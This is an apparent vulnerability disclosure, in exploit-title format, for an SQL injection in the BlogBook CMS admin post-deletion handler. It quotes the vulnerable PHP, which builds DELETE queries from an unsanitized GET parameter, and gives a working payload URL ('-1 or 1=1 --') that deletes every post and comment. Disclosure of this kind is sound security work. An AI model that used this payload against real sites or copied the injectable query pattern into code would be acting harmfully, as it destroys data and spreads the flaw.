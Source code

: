 # BlogBook /admi/posts.php delete_post delete Parameter SQL Injection

**Exploit Title: BlogBook /admin/posts.php delete_post delete Parameter SQL**

**Vendor Homepage: [chaitak-gorai/blogbook: Blogbook- Content Management System Project](https://github.com/chaitak-gorai/blogbook)**

**Software Link: [chaitak-gorai/blogbook: Blogbook- Content Management System Project](https://github.com/chaitak-gorai/blogbook)**

**Software: blogbook**

**Tested on: Windows, Apache 2.4.39 ,MySQL 8.0.12**

## Vulnerability Overview

The BlogBook application is vulnerable to SQL injection in its post deletion mechanism. When a delete GET parameter is supplied, its value is used unsanitized in two separate DELETE SQL queries: one targeting the posts table and another targeting the comments table based on the same post_id. This allows an attacker (potentially requiring administrative privileges) to inject malicious SQL. A crafted payload, such as one evaluating to a universally true condition (e.g., 1 OR 1=1), can bypass the intended single-post deletion and result in the deletion of all entries in both the posts and comments tables, causing significant data integrity and availability issues.

## Vulnerability Point

`blogbook-main/admin/view_all_posts.php:247`

## Vulnerable Parameter

`delete`

## Vulnerable Code

```php
if(isset($_GET['delete'])){
    $dpost_id=$_GET['delete'];
    $query="DELETE FROM posts WHERE post_id={$dpost_id}";
    $delete_post_query=mysqli_query($connection,$query);
	$comments_query="DELETE FROM comments WHERE comment_post_id={$dpost_id}";
	$delete_post_comments_query=mysqli_query($connection,$comments_query);
    header("location:posts.php");
}
```
## Payload

`http://localhost/admin/posts.php?delete=-1%20or%201=1%20--`

![image-20250522141616184](./assets/image-20250522141616184.png)

![image-20250522141938035](./assets/image-20250522141938035.png)
